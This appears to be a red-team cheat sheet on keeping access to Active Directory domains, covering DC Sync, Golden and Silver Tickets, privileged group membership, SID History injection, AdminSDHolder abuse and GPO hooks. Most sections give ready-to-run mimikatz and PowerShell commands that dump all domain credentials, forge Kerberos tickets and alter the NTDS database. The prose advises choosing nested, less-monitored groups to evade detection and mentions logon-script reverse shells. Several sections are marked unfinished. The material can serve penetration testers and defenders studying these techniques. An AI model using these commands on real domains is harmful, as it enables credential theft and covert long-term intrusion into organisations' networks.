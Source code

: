 ```yaml
---
title: Active Directory persistence
---
```


- [1. DC Sync](#1-dc-sync)
- [2. Golden Ticket](#2-golden-ticket)
- [3. Silver Ticket](#3-silver-ticket)
- [4. Certificates](#4-certificates)
- [5. Group Membership](#5-group-membership)
- [6. SID History](#6-sid-history)
- [7. Group Templates](#7-group-templates)
- [8. GPO](#8-gpo)

## 1. DC Sync
The more privileged credentials are, the sonner they will be rotated after breach detection. The goal then is to persist with near-privileged credentials, not with a super-user:

- Local administrator on several machines - usually there is a group or twowith local admin rights on almost all machines.
- Service accounts with delegation permissions - with this accounts it's possible to force golden and silver tickets to perform Kerberos delegation attacks.
- Privileged AD services accounts

It is not just the DCs that can initiate DC Synchronization. Accounts such as those belonging to the _Domain Admins_ groups can also do it for legitimate purposes such as creating a new domain controller. If our account has permission to perform DC Synchronization, we can stage a DC Sync attack to harvest credentials from a DC.

```powershell
.\mimikatz.exe

# Dump for single user
> lsadump::dcsync /domain:<DOMAIN> /user:<AD_USERNAME>

# Dump all users to the file
> log <DUMP_FILE.TXT>
> lsadump::dcsync /domain:<DOMAIN> /all
```

## 2. Golden Ticket
_Golden Ticket_ is forged TGT of high privileged account. The authorization step is bypassed. Having a valid TGT of a privileged account, an attacker can request a TGS for almost any service. In order to forge a golden ticket `krbtgt` account's password hash is required. With this hash an attacker can sign a TGT for any user account. By default, the `krbtgt` account's password never changes, meaning once hacked, unless it is manually rotated, it's possible to generate TGTs forever.

Required information to forge Golden Ticket:

- `krbtgt` account's password hash
- domain name
- domain SID
- user ID

```powershell
# Mimikatz - forge Golden Ticket
> kerberos::golden /admin:<ACCOUNT> /domain:<DOMAIN> /id:500 /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_NTLM_HASH> /endin:600 /renewmax:10080 /ptt

# Check if it works
dir \\dc\C$\
```

## 3. Silver Ticket
_Silver Ticket_ is forged TGS of some interesting service. TGS is signed by the machine account of the target host. `CIFS` service is a safe service because it allows file access. TBD

```powershell
# Mimikatz - forge Silver Ticket
> kerberos::golden /admin:<ACCOUNT> /domain:<DOMAIN> /id:500 /sid:<DOMAIN_SID> /target:<DOMAIN-HOSTNAME> /rc4:<TARGET_MACHINE_NTLM_HASH> /service:cifs /ptt
```

## 4. Certificates
TBD

## 5. Group Membership
We can just add ourselves directly to privileged AD groups for persistence.  Remember, the most privileged groups are not always the best to use for persistence. They are always monitored. In large organizations groups are usually nested. Groups contain groups and so on. For example, an interesting "IT Support" group might have multiple subgroups with the same privileges. Here's the reduced visibility for monitoring systems. It can be exploited to achive more silent persistence.

```powershell
# Add group member
Add-ADGroupMember -Identity <GROUP> -Members <USER>
```

## 6. SID History
SIDs history of Security Principal allows for one account to be attached to another. It basically have all the privileges of the SIDs included in the SID history. It's especially used during migration, when a new account on a new domain could have the SID history of an old account to retain access of the old domain.

It might be used in order to establish persistence in the domain. Groups' SIDs can be assigned to a user's SID history as well. This technique is a lot harder to detect than just a simple group membership persistence.

```powershell
# Get SID history
Get-ADUser <USER> -Properties name,sidhistory

# Get group's SID
Get-ADGroup <GROUP>

# Modify SID history
Import-Moduls DSInternals
Stop-Service ntds -Force
Add-ADDBSidHistory -SamAccountName <USER> -SidHistory <SID> -DatabasePath 'C:\Windows\NTDS\ntds.dit'
Start-Service ntds
```

## 7. Group Templates
Group templates are objects which privileges are copied to some AD groups constantly (e.g. every hour). `SDProp` process takes the ACL of the `AdminSDHolder` object and applies it to all protected groups every 60 minutes. List of protected groups contains: `Administrators`, `Domain Admins`, `Schema Admins`, `Enterprise Admins` and more. By default, `AdminSDHolder` ACL is very restrictive. By modifing ACL of this object (injecting special ACEs), an attacker can change ACLs of all protected groups in the domain and gain full permissions to them.  

## 8. GPO
GPOs are excellent tool for remote management but they can be targeted to deploy persistence. Some GPO hooks are especially interesting from the attacker's point of view:

- `Restricted Group Membership` - allows to give administrative access to all hosts in the domain.
- `Logon Script Deployment` - allows to execute script (e.g. reverse shell) on every logon.
- and more.
